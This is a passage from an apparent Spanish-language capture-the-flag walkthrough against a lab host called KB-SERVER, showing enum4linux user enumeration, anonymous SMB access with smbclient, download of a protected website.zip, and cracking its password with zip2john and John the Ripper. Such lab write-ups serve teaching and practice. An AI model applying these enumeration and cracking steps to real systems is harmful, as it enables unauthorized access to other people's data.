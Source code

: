 ```
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-1549018082-965289578-1641819225 and logon username '', password ''

S-1-5-21-1549018082-965289578-1641819225-501 KB-SERVER\nobody (Local User)
S-1-5-21-1549018082-965289578-1641819225-513 KB-SERVER\None (Domain Group)

 ===============================( Getting printer info for 192.168.5.130 )===============================

No printers returned.


enum4linux complete on Sat Jul  6 11:32:55 2024
```

Encontramos una carpeta compartida que podremos entrar `//192.168.5.130/Files` a parte de que vemos el nombre de un usuario llamado `heisenberg` por lo que haremos lo siguiente...

```shell
smbclient //192.168.5.130/Files -N
```

Dentro del `smb` veremos un archivo `.zip` llamado `website.zip` por lo que nos lo descargaremos...

```shell
get website.zip
```

Si lo intentamos descomprimir veremos que tiene una contarseña, pero si le damos a `enter` nos descomprimira parte del archivo en una carpeta llamada `sitemagic` eso no nos interesa, tendremos que crackear la contraseña por lo que haremos lo siguiente...

```shell
zip2john website.zip > hash
```

```shell
john --wordlist=<WORDIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:03 DONE (2024-07-06 11:39) 0.2849g/s 1306Kp/s 1306Kc/s 1306KC/s potweed21..pommagranite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
